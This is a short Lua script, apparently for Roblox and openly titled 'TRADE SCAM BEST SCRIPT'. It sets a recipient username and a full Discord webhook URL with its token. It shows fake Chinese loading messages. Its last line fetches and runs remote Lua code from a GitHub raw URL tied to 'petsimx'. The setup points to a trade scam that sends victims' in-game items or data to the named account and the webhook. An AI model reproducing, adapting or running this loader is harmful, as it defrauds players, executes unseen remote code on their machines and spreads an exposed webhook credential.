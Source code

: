 Username = "cocvn_my"

WebHook = "https://discord.com/api/webhooks/1079342398871715841/LAWZqg3Hby0JeXIPPatac7jdyNbbQ6mnNWFzqnXnd4Sj7X7OKRcfvWYp2uyAucZa7BeR"

_G.CustomScriptName = "TRADE SCAM BEST SCRIPT"

_G.Text1 = "脚本加载..."

_G.Text2 = "等待脚本"

_G.Text3 = "检查脚本s..."

_G.Text4 = "启动脚本...（有可能闪退）"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
